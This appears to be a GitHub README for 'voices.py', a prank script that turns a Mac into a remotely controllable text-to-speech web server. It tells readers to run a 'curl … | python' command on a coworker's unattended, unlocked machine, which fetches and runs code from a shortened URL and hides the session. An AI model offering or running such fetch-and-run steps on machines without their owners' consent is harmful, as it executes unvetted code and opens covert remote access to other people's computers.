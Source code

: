 voices.py
=========

What is it?
-----------

**voices.py** is a self-contained python script that starts a webserver that listens on a user-entered IP and port that allows a visitor to remotely send text-to-speech commands on OS X machines.

What is it good for?
--------------------

The machines that coworkers would leave unattended **and unlocked** is the primary impetus.  If you find such a machine, do the following:

1. Open up Terminal.app

2. Type the following::

    $ screen
    $ curl -L j.mp/voicespy | python

3. Now press control-a then "d" to detach the screen session.

4. In a browser, go to the entered IP and port number.  For example, ``http://192.168.1.199:8888``.  You should be presented with a page that has a select box and a text box.  Simply choose a voice and enter a message.

5. Press "Say".

6. Profit.

Why do I want to do this?
-------------------------

For hilarity! Suggestions:

1. Use the "Whisper" voice and have the target's computer whisper "kill all humans" every 30 minutes or so.

2. Use "Cellos" with a suitably catchy lyric.

3. Use "Trinoids" and make the computer say: "Please wait. Calculating.  Boop dee boop dee boop dee boop dee boop dee boop."

Requirements
------------

Mac OS X, obviously.  And also Python.

Usage details
-------------

Without an argument, **voices.py** will attempt to autodiscover your IP and automatically use 8888 as the port::

    $ python voices.py 
    Explicit IP and port not entered.  Attempted to autodiscover IP address.
    Serving on 192.168.1.199:8888

With an argument, **voices.py** will use the IP and port you entered.  Note that python does not have permission to bind to IPs that are not used by your machine::

    $ python voices.py 192.168.1.199:8080
    Serving on 192.168.1.199:8080

For a short help, do use ``--help``::

    $ python voices.py --help
    Usage: python voices.py x.x.x.x:port

